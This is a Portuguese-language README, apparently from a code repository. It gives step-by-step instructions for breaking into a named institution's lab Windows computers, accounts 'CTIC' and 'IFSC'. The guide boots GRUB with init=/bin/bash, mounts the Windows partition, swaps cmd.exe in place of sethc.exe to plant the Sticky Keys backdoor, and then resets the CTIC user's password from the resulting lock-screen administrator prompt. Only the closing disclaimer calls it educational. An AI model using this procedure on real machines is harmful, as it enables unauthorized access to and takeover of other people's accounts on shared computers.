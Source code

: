 # Acesso ao CTIC Windows - Requisitos: PCs com Windows e Linux

## Técnicas Utilizadas: Reinicialização com Parâmetros Especiais, Sticky Keys Backdoor

Este documento descreve os passos necessários para acessar o sistema operacional Windows do CTIC utilizando uma combinação de técnicas, como a reinicialização com parâmetros especiais e a exploração da vulnerabilidade conhecida como "Sticky Keys Backdoor".

### Passo 1: Desligamento Completo dos Processos do Windows

Para garantir que todos os processos do Windows sejam desligados completamente:

1. Ao desligar o Windows, segure a tecla "SHIFT" enquanto seleciona a opção de desligar. Isso garante o desligamento completo dos processos.

### Passo 2: Acesso ao GRUB do Linux Ubuntu

1. Após o desligamento completo do Windows, inicie o computador.
2. Na tela de seleção de Sistema Operacional (Windows ou Linux Ubuntu), selecione o Linux Ubuntu, mas não entre no sistema.
3. Pressione a tecla "e" para editar as configurações do GRUB.
4. Localize a linha que começa com "linux" ou "linuxefi" e vá até o final dela.
5. Adicione o parâmetro `init=/bin/bash` ao final da linha.
6. Pressione "Ctrl+X" ou "F10" para iniciar o sistema com as alterações.

### Passo 3: Sticky Keys Backdoor

1. Após entrar no terminal bash, execute os seguintes comandos:

   ```bash
   fdisk -l # Para listar as partições e identificar a partição do Windows (provavelmente sob "Microsoft data")
   mkdir /mnt/windows # Criar uma pasta para montar a partição do Windows
   mount {caminho_da_partição_windows} /mnt/windows # Substitua {caminho_da_partição_windows} pelo caminho correto
   cd /mnt/windows/Windows/System32 # Acessar o diretório do sistema Windows
   mv sethc.exe sethc1.exe # Renomear arquivos para criação da backdoor
   mv cmd.exe sethc.exe
   ```

2. Reinicie o sistema Windows.

### Passo 4: Alteração da Senha Local do Usuário CTIC

1. Após reiniciar e acessar o Windows:
2. Se estiver logado como usuário "IFSC", pressione as teclas `Windows + L` para bloquear a tela.
3. Pressione a tecla SHIFT cinco vezes para acionar um prompt de comando com privilégios de administrador.
4. Execute o comando:

   ```bash
   control userpasswords2
   ```

5. Na janela de configuração de contas de usuário, acesse a aba "Avançado" e clique no botão correspondente.
6. Selecione o usuário "CTIC" e clique em "Mais ações" e, em seguida, "Redefinir senha". Ou clique com o botão direito no usuário "CTIC" e selecione "Redefinir senha".
7. Insira a nova senha desejada.
8. Faça login com a nova senha no usuário "CTIC".


**Aviso Importante: Responsabilidade pelo Uso das Instruções**

As instruções fornecidas neste documento são fornecidas apenas para fins educacionais e informativos. Qualquer utilização destas instruções é de total responsabilidade do usuário. Não me responsabilizo por quaisquer danos, perdas, alterações indesejadas ou consequências resultantes da aplicação destas instruções em qualquer computador ou sistema operacional.

Ao prosseguir com a execução dessas etapas, você reconhece e concorda que está ciente dos riscos envolvidos na realização de ações que podem afetar o funcionamento normal de um sistema. Recomenda-se que você possua autorização adequada e conhecimento técnico para realizar essas ações, e que você siga todas as leis, regulamentos e políticas de segurança aplicáveis.

Lembre-se de que explorar vulnerabilidades ou realizar modificações não autorizadas em sistemas pode ter implicações legais graves. Certifique-se de obter permissão adequada e de agir de acordo com os regulamentos e diretrizes antes de executar qualquer procedimento mencionado neste documento.
